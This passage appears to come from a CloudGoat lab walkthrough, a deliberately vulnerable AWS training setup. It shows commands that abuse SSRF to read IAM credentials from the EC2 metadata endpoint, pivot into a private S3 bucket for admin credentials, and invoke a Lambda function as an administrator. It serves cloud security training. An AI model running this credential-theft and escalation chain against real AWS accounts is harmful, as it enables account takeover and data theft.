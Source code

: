 ```bash
# Every EC2 instance has access to internal aws metadata by calling a specific endpoint from within the instance.
# - The metadata contains information and credentials used by the instance.
# - use those credentials to possibly escalate our privileges
http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://<EC2 instance IP>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<the role name>

# Add the EC2 instance credentials
[ec2role]
aws_access_key_id = asdasdasd
aws_secret_access_key = asdasdsadas
aws_session_token = "asdasdasd"




# ----------- 3. Pivoting into S3 Buckets
# finds a private S3 bucket containing another set of AWS credentials for a more powerful user: Shepard.
aws s3 ls --profile cgec2role

aws s3 ls --profile cgec2role s3://cg-secret-s3-bucket-<cloudgoat_id>

aws s3 cp --profile cgec2role s3://cg-secret-s3-bucket-<cloudgoat_id>/admin-user.txt ./

cat admin-user.txt



# ----------- 4. Compromising Scenario Flag
# Now operating as Shepard,
aws configure --profile cgadmin
# with full-admin final privileges, invoke the original Lambda function to complete the scenario.
aws lambda list-functions --profile cgadmin

aws lambda invoke --function-name cg-lambda-<cloudgoat_id> ./out.txt

cat out.txt



```

![web-edit-2-750x375](https://i.imgur.com/26kG2BG.png)



---


### Scenarios 6: rce_web_app (Medium / Hard)
